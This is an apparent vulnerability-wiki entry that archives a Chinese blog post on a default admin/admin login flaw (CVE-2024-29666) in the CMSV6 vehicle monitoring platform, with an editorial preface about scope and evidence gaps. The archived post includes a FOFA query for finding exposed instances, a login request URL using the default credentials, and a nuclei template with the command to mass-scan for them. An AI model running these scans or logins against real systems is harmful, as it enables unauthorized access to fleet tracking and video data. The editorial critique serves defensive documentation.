



# CVE-2024-29666

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：CMSV6车辆监控平台
- 文献类型：默认口令登录检测
- 版本、权限及部署边界：文列7.31.0.2、7.32.0.3；管理账户仍使用出厂/弱默认口令，API可达
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 缺默认口令可更改/硬编码/升级保留行为说明，不能把所有相同版本实例都认定存在弱口令
2. HTTP200且body含admin可能只是回显或错误信息，需成功状态和有效会话/授权页面确认
3. 登录尝试属于认证动作且可能触发锁定/审计，不是纯指纹扫描
4. 修复只升级遗漏更换默认密码、吊销异常会话和限制管理面；无厂商/CVE原始来源

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://x.x.x.x/808gps/login.html>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-03-29 07:23  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
CMSV6车辆监控平台系统中存在弱密码漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
CMSV6 7.31.0.2、7.32.0.3  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
CMSV6平台是基于车辆位置信息服务和实时视频传输服务的创新技术和开放运营理念。为GPS运营商车辆硬件设备制造商、车队管理企业等车辆运营相关企业提供核心基础数据服务。该系统  
  
CMSV6 7.31.0.2、7.32.0.3版本中存在弱密码漏洞。用户名：admin 密码：admin  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
body="/808gps/"
```  
  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
手工使用admin/admin直接登录即可  
```
http://x.x.x.x/808gps/login.html
```  
  
程序请求如下地址，返回值中包含admin即为成功  
```
http://xxx/StandardApiAction_login.action?account=admin&password=admin
```  
  
  
  
  
06  
  
—  
  
批量扫描 poc  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-29666

info:
  name: CMSV6车辆监控平台系统中存在弱密码漏洞
  author: fgz
  severity: high
  description: CMSV6平台是基于车辆位置信息服务和实时视频传输服务的创新技术和开放运营理念。为GPS运营商车辆硬件设备制造商、车队管理企业等车辆运营相关企业提供核心基础数据服务。该系统CMSV6 7.31.0.2、7.32.0.3版本中存在弱密码漏洞。用户名：admin 密码：admin
  tags: cve-2024,cve
  metadata:
    max-request: 1
    fofa-query: body="/808gps/"
    verified: true

http:
  - method: GET
    path:
      - "{{BaseURL}}/StandardApiAction_login.action?account=admin&password=admin"
    headers:
      Accept-Encoding: gzip, deflate
      Accept-Language: en
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'admin')"
```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-29666.yaml -l data/1.txt
```  
  
  
  
07  
  
—  
  
修复建议  
  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
  
08  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
